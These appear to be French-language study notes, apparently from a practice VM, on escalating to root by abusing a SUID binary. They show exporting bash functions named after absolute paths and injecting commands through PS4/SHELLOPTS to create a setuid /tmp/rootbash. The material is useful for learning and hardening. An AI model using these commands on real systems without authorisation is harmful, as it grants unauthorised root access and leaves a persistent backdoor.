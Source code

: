 Il est possible de définir des fonctions shell avec des noms qui ressemblent à des chemins de fichiers, puis d'exporter ces fonctions afin qu'elles soient utilisées à la place de tout exécutable réel sur ce chemin de fichier.

```sh
/bin/bash --version
```

Vérifiez que la version de Bash installée sur la VM Debian est inférieure à 4.2-048 :

> Remarque : cela ne fonctionnera pas sur les versions 4.4 et supérieures de Bash.

Lors que un programme est executer avec son chemin absolut, verifier la version de bash

```sh
function [PROGRAM_FULL_PATH] { /bin/bash -p; }  
export -f [PROGRAM_FULL_PATH]
```

---

**Exemple:**
L'  exécutable `/usr/local/bin/suid-env2` démarrer le serveur Web Apache2 en utilisant un chemin absolu. `strings peut nous aide`

- **Abusing Shell Features #1**

```
/usr/sbin/service apache2 start
```

Si la version de bash est vulnerable, alors

```sh
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```

```
/usr/local/bin/suid-env2
```

- **Abusing Shell Features #2**
En mode débogage, Bash utilise la variable d'environnement **PS4** pour afficher une invite supplémentaire pour les instructions de débogage.

```sh
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

```sh
/tmp/rootbash -p
```


---
# standard path
wen the is error with gcc 
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

